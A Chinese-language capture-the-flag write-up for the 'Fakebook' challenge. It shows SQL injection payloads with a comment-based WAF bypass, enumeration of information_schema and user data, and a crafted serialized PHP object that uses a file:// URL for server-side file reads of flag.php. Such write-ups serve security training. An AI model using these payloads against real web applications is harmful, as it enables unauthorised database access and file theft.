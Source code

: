 ## 基本信息

* 题目名称： [网鼎杯 2018]Fakebook
* 题目链接： https://www.nssctf.cn/problem/20
* 考点清单： sql注入，反序列化
* 工具清单：
* payloads： 无

## 一、看到什么

**题目关键信息列表**：

1. 题目给了一个注册和登录的接口

## 二、想到什么解题思路

1. `view.php`中报错会直接给出提示，存在`sql`注入漏洞的可能。
2. 数据是以序列化形式存储的，表明存在设置相关类的`php`文件，`dirsearch`扫一下看一下目录。

## 三、尝试过程和结果记录

**尝试过程：**

1. 首先需要注册账户，发现乱输入的`blog`会提示不合法，需要输入一个有效的网址。

2. 注册完账户，发现主页面中就出现了注册的用户信息，通过用户名可以点击进入主页。检查源代码可以看到<iframe>中在访问响应`blog`的内容

    ![](images/[网鼎杯%202018]Fakebook-用户页面.png)

3. 上面显示`view.php?no=1`，直接考虑换一些其他的值进行尝试。发现输入2的时候，就出现了报错提示。

    ![](images/[网鼎杯%202018]Fakebook-报错页面.png)

4. 选择`burp`的`sql`关键词爆破，看是否存在`WAF`。响应长度为948的都是提示被过滤的。看样子是过滤了`union select`这样的结构，但是没有单独过滤两个关键词，空格可以使用`/**/`绕过。

    ![](images/[网鼎杯%202018]Fakebook-WAF.png)

5. 先查看有数据表有几列。数字5的时候就提示没有这么多列，故一共4列。
    ```
    ?no=1 order by 4
    ```
6. 找出回显位,这个时候将`no`设置为0，避免把回显位的结果挡住。显示回显位为2。
    ```
    ?no=0 union/**/select 1,2,3,4
    ```
7. 查看相关信息，包括所在数据库，有哪些数据表，有哪些数据库，表有哪些列以及列的值。

    - 所在数据库为`fakebook`

    ```
    ?no=0%20union/**/select%201,database(),3,4
    ```

    - 这个数据库拥有的表名为`users`，且报错提示中有`Notice: unserialize(): Error at offset 0 of 1 bytes in /var/www/html/view.php on line 31`，本题应该还和反序列化有关。

    ```
    ?no=0%20union/**/select%201,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()
    ```
    - 这个表里有`no`,`username`,`passwd`,`data`这4个属性。
    ```
    ?no=0%20union/**/select%201,group_concat(column_name),3,4 from information_schema.columns where table_schema=database() and table_name='users'
    ```
    - 查看所有列的值，再查询单列，发现`data`的数据是以序列化的形式存储的。
    ```
    ?no=0%20union/**/select%201,group_concat(no,username,passwd,data),3,4 from users
    # 结果1testba3253876aed6bc22d4a6ff53d8406c6ad864195ed144ab5c87621b6c233b548baeae6956df346ec8c17f5ea10f35ee3cbc514797ed7ddd3145464e2a0bab413O:8:"UserInfo":3:{s:4:"name";s:4:"test";s:3:"age";i:18;s:4:"blog";s:13:"www.baidu.com";} 
    ?no=0%20union/**/select%201,group_concat(data),3,4 from users
    # 结果
     O:8:"UserInfo":3:{s:4:"name";s:4:"test";s:3:"age";i:18;s:4:"blog";s:13:"www.baidu.com";} 
    ```
    - 出现的报错提示,意思是`PHP`代码中尝试访问一个非对象的属性（或者一个未初始化的对象）时发生了错误。说明本题还与非序列化有关。
    ```
    Notice: Trying to get property of non-object in /var/www/html/view.php on line 53
    ```
8. 我们使用`dirsearch`扫一下目录,`robots.txt`里面有`37B`的内容，访问一下。提示我们访问如下的内容。
    ```
    User-agent: *
    Disallow: /user.php.bak
    ```
9. 访问一下这个文件，则将这个文件下载下来了。且用`dirsearch`扫描的时候，发现了`0B`的`user.php`的文件。`user.php.bak`这是它的原始备份文件。说明这个文件里面有东西。

10. 查看一下文件内容。它只有`userinfo`一个类，与我们通过`sql`注入查看到的data里的类名相同。`get($url)`会去访问网页，并将网页的部分内容返回。函数接受一个`URL`作为参数，而没有对其进行任何限制或验证。如果攻击者可以控制`$url`，就可以让服务器请求任何指定的地址。猜测相关文件存储在`flag.php`中。使用`file`伪协议来读取文件内容。

11. 构造序列化，得到序列化结果。

    ```php
    <?php
    class UserInfo
    {
        public $name = "";
        public $age = 0;
        public $blog = "file:///var/www/html/view.php";

    }
    echo serialize(new UserInfo());
    # O:8:"UserInfo":3:{s:4:"name";s:0:"";s:3:"age";i:0;s:4:"blog";s:29:"file:///var/www/html/view.php";}
    ```

12. 构造`payload`，可以测试不同的`php`文件，发现flag就存在`flag.php`中。

    ```
    view.php?no=0 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:0:"";s:3:"age";i:0;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
    ```
    ![](images/[网鼎杯%202018]Fakebook-flag.php.png)

    - 点击相应的`ifame`给的`data`协议进行跳转。即可得到最终`flag`。
    ![](images/[网鼎杯%202018]Fakebook-flag.png)

## 四、总结与反思

1. 做到一半没思路的时候，可以访问一下`robots.txt`，或者去扫一下目录等，也许有意想不到的收获。
2. 根据报错提示可以猜测题目的考点。